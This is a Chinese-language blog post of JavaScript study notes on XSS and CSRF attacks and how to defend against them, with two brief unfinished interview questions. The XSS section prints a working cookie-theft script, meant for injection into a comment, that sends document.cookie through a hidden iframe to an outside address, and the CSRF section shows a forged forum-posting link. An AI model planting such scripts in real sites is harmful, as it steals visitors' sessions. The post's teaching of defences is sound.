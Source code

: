 ```yaml
---
title: Javascript基础4
date: 2016-09-17 16:00:00
categories: Javascript
tags: [Javascript,红皮书,读书笔记] #文章标签，可空，多标签请用格式，注意:后面有个空格
toc: true
comments: true
---
```

摘要：



<!-- more -->

# 1. web安全问题 #
探讨比较多的两种，XSS攻击和CSRF攻击。^1
## XSS： ##
Cross Site Script，跨站脚本，主要是攻击者在用户输入域里提交script代码，改变web端页面代码，其他用户访问这个页面的时候，就会受到影响，XSS攻击不会影响服务器端数据。
**攻击例子：**
```
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document){
    
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase =  "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement('iframe');
    hideFrame.width = 0;
    hideFrame.height = 0;
    hideFrame.style.display = 'none';
    hideFrame.src = xssURI；

    // 开工
    document.body.appendChild(hideFrame);

    })(window, document)
```
这样，其他用户访问这个页面时，这个页面就会自动运行这一段脚本，于是就取得了该用户的cookie，并使用cookie发起了请求到攻击者的站点，这样就会泄露用户在该站点的cookie。

**如何防御**
对一切需要用户输入文本的地方，进行过滤。方式：

1. 如果不需要用户输入 HTML，只需要纯文本，对输入内容进行转义，
2. 如果允许用户输入 HTML，又要过滤其中的脚本，可以使用Tidy 等 HTML 清理库；

- 注意，仅仅粗暴地去掉`<script>`标签是不行的，因为可以在HTML 标签的 onclick 事件里写脚本，
- 复杂情况可以白名单重新整理，对用户输入内容使用HTML解析库遍历节点，获取其中数据，然后根据用户原有标签，重新构建HTML 元素数，构建过程中只使用白名单中的标签和属性。

## CSRF攻击 ##
Cross Site Request Forgery，跨站点请求伪造，主要是模仿网站的正常请求链接伪造请求，冒充用户在站内的正常操作。

**攻击例子：**

例如，一论坛网站的发贴是通过 GET 请求访问：
http://example.com/bbs/create_post.php?title=标题&content=内容
那么，我只需要在论坛中发一帖，包含一链接：
http://example.com/bbs/create_post.php?title=我是脑残&content=哈哈

那么其他用户点了这个链接，就会自动发这样一个帖子，既然可以发帖，也可以删帖、修改等
**如何防御**

1. 首先可以限制发帖内容不能包含本站点域名链接，但是攻击者还可以不在本站操作也可以将这个链接发出来诱导点击，
2. 提高攻击门槛，改良API设计，展示类使用GET，创建资源类使用POST，最理想的做法是使用 REST 风格 的 API 设计，GET、POST、PUT、DELETE四种请求方法对应资源的读取、创建、修改、删除。现在的浏览器基本不支持在表单中使用 PUT 和 DELETE 请求方法，我们可以使用 ajax 提交请求（例如通过 jquery-form 插件），也可以使用隐藏域指定请求方法，然后用 POST 模拟 PUT 和 DELETE
3. “请求令牌”，比较简单也比较有效。实现方法非常简单，首先服务器端要以某种策略生成随机字符串，作为令牌（token）， 保存在 Session 里。然后在发出请求的页面，把该令牌以隐藏域一类的形式，与其他信息一并发出。在接收请求的页面，把接收到的信息中的令牌与 Session 中的令牌比较，只有一致的时候才处理请求，否则返回 HTTP 403 拒绝请求或者要求用户重新登陆验证身份。

# 2. 一个form表单中有普通的字段还有文件，怎么提交给后台 #
h5formData
ENCTYPE="multipart/form-data"

# 3. 分析一段文本中单词出现的频率，并找出top 10 #


> by MaryTien from  [http://supermaryy.com](http://luckymona.github.com)
> 本文地址：[http://supermaryy.com/2016/09/17/read-book-professional-javascript3](http://luckymona.github.io/2016/09/17/read-book-professional-javascript3)





---
> 本文为原创文章，尊重辛勤劳动，可以免费摘要、推荐或聚合，但完整转载需经过本人同意，本人邮箱 miao.hnlk@gmail.com
> 本文地址：[http://supermaryy.com/2016/09/17/read-book-professional-javascript3](http://luckymona.github.io/2016/09/17/read-book-professional-javascript3)

Reference：

^1:[总结 XSS 与 CSRF 两种跨站攻击](http://www.cnblogs.com/wangyuyu/p/3388180.html)





